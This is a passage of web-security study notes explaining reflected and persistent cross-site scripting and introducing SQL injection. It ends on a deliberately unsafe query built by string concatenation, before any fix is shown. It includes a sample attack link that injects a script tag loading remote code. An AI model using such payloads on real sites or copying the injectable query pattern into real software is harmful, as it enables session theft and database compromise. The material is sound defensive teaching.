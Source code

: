 - **Note**: XSS vulnerabilities have been historically more common than any other type of security threat.

- The XSS vulnerabilities are divided into _reflected_ and _persistent_, based on how the site returns the injected scripts to a browser.

  - A _reflected_ XSS vulnerability occurs when user content that is passed to the server is returned _immediately and unmodified_ for display in the browser.
    - Any scripts in the original user content will be run when the new page is loaded.
    - For example, consider a site search function where the search terms are encoded as URL parameters, and these terms are displayed along with the results.
    - An attacker can construct a search link that contains a malicious script as a parameter (e.g., `http://developer.mozilla.org?q=beer<script%20src="http://example.com/tricky.js"></script>`) and email it to another user.
    - If the target user clicks this "interesting link", the script will be executed when the search results are displayed.
    - As discussed earlier, this gives the attacker all the information they need to enter the site as the target user, potentially making purchases as the user or sharing their contact information.
  - A _persistent_ XSS vulnerability occurs when the malicious script is _stored_ on the website and then later redisplayed unmodified for other users to execute unwittingly.
    - For example, a discussion board that accepts comments that contain unmodified HTML could store a malicious script from an attacker.
    - When the comments are displayed, the script is executed and can send to the attacker the information required to access the user's account.
    - This sort of attack is extremely popular and powerful, because the attacker might not even have any direct engagement with the victims.

- While the data from `POST` or `GET` requests is the most common source of XSS vulnerabilities, any data from the browser is potentially vulnerable, such as cookie data rendered by the browser, or user files that are uploaded and displayed.

- The best defense against XSS vulnerabilities is to remove or disable any markup that can potentially contain instructions to run the code. For HTML this includes elements, such as `<script>`, `<object>`, `<embed>`, and `<link>`.

- The process of modifying user data so that it can't be used to run scripts or otherwise affect the execution of server code is known as **input sanitization**.
- Many web frameworks automatically sanitize user input from HTML forms by default.

### SQL injection

- SQL injection vulnerabilities enable malicious users to execute arbitrary SQL code on a database, allowing data to be accessed, modified, or deleted irrespective of the user's permissions.
- A successful injection attack might spoof identities, create new identities with administration rights, access all data on the server, or destroy/modify the data to make it unusable.

- SQL injection types include Error-based SQL injection, SQL injection based on boolean errors, and Time-based SQL injection.

- This vulnerability is present if user input that is passed to an underlying SQL statement can change the meaning of the statement.
- For example, the following code is intended to list all users with a particular name (`userName`) that has been supplied from an HTML form:

```
statement = "SELECT * FROM users WHERE name = '" + userName + "';"
```
